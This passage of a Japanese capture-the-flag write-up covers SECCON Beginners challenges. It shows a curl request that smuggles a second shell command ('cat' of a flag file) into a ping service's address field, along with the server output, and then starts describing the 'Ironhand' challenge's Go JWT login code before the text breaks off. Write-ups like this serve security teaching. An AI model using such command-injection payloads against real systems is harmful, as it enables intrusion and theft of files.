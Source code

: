 フラグファイルが`/flag_A74FIBkN9sELAjOc.txt`と判明し

```
$ curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H "Content-Type: application/json" -d '{"address":"127.0.0.1;cat /flag_A74FIBkN9sELAjOc.txt"}'
{
  "result": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.195 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.195/0.195/0.195 ms\nctf4b{al1_0vers_4re_i1l}\n"
}
```

## Ironhand (難易度 Medium)

docker-compose.ymlファイルを見ると3つのサービスapp secret nginxが動作していることが分かります。

appではログイン機構があり、ユーザー名を指定するとjwtトークンを生成しcookieへ付与し、ログイン後の画面が見れるようになります。

```go
// Generate JWT token
claims := &UserClaims{
  &jwt.RegisteredClaims{
    ExpiresAt: jwt.NewNumericDate(time.Now().Add(time.Hour * 24 * 7)),
  },
  username,
  false,
}
token := jwt.NewWithClaims(jwt.SigningMethodHS256, claims)
secretKey := os.Getenv("JWT_SECRET_KEY")
tokenString, _ := token.SignedString([]byte(secretKey))

// Set JWT token in cookie
cookie := &http.Cookie{
  Name:    "JWT_KEY",
  Value:   tokenString,
  Expires: time.Now().Add(time.Hour * 24 * 7),
}
c.SetCookie(cookie)
```

secretではフラグ文字列を返すサービスで、appでadmin(管理者)としてログインしたときに取得できる仕組みになっています。

```go
// If you are admin, you can get FLAG
if claims.IsAdmin {
  res, _ := http.Get("http://secret")
  flag, _ := ioutil.ReadAll(res.Body)
  if err := res.Body.Close(); err != nil {
    return c.String(http.StatusInternalServerError, "Internal Server Error")
  }
  return c.Render(http.StatusOK, "admin", map[string]interface{}{
    "username": claims.Username,
    "flag":     string(flag),
  })
}
```
